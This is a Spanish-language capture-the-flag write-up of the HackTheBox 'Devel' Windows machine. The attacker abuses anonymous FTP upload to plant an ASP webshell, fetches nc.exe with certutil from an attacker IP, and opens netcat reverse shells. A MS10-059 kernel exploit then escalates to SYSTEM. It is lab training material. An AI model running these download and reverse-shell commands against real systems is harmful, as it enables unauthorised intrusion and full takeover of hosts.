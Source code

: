 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Devel](https://www.hackthebox.com/home/machines/profile/3) |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad | ![Dificultad](images/difficulty.png) |
| Puntos | 20 |
| Creadores | [ch4p](https://www.hackthebox.com/home/users/profile/1) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:23 EDT
Initiating Connect Scan at 10:23
Scanning 10.10.10.5 [65535 ports]
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 26.80% done; ETC: 10:25 (0:01:25 remaining)
Completed Connect Scan at 10:25, 112.65s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.064s latency).
Scanned at 2022-06-16 10:23:39 EDT for 113s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.68 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,21 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:29 EDT
Nmap scan report for 10.10.10.5
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.36 seconds
```

# Enumeración

## Servicios

### ftp - 21

Si bien se buscó analizar el servicio http, no se encontró nada relevante que pudiera sobresalir para la fase de explotación, salvo la recopilación de información ya presente en el escaneo de nmap el cuál presenta la versión del servidor IIS presente.

Al identificar mediante el escaneo específico de nmap el logueo por medio de la cuenta anónima que ofrecen los servidores ftp, se buscó ingresar para visualizar qué archivos se encontraban presentes y si además de permitir el listado de estos, se permitía la escritura en el directorio.

Al visualizar los archivos disponibles se identificó que correspondían con los archivos relacionados al servidor web en cuestión, por lo que al cargar un archivo de prueba se buscó visualizarlo mediante el navegador, corroborando así un camino de explotación mediante la ejecución de código.

![Carga de archivo de prueba](images/enum_1.png)

Visualización en navegador

![Visualización en navegador](images/enum_2.png)

# Explotación

## RCE

De acuerdo a la tecnología empleada se buscó cargar una webshell de `asp` para ejecutar comandos en la máquina, la cual se puede ubicar en `/usr/share/webshells/asp`.

![Carga de archivos](images/exploit_1.png)

Por lo que después de la carga del binario de netcat mediante:

```powershell
certutil.exe -f -urlcache http://10.10.14.16/nc.exe c:\windows\temp\nc.exe
```

Se obtuvo una reverse shell como `iis apppool\web` entablandola con:

```powershell
c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 1234
```

![Carga de nc.exe](images/exploit_2.png)

Reverse shell entablada:

![Reverse shell](images/exploit_3.png)

# Post Explotación

## Enumeración

Al identificar mediante `systeminfo` que se trataba de una versión vieja de Windows 7, sumando que en la misma información mostrada por el comando no se visualizaba ningún parche instalado, se asumió que la ruta de escalación iba intencionada a realizarse por medio de explotación de kernel.

![Información de sistema](images/post_1.png)

## Escalación de privilegios

### nt apppool\web &rarr; nt authority\system

Después de ocupar el [repositorio de exploits de kernel de windows](https://github.com/SecWiki/windows-kernel-exploits) para buscar alguno que fuera a la par de la fecha y acorde a la versión del sistema operativo, se encontró que el exploit relacionado a `MS10-59` era operativo pero debido a que el presente en el repositorio es presentado mediante una prueba de concepto la cual retorna una shell lanzando otro proceso/ventana y no en la presente a donde se ejecuta.

Se optó por buscar alguna otra prueba de concepto que permitiera otro enfoque, encontrando así otro [repositorio del mismo exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cuál mediante la especificación de la IP de escucha y puerto permite entablar una reverse shell como `nt authority\system`, obteniendola mediante:

```powershell
.\churri.exe 10.10.14.16 4321
```

![Acceso como nt authority\system](images/post_2.png)

# Referencias

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits).
- [egre55 - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).
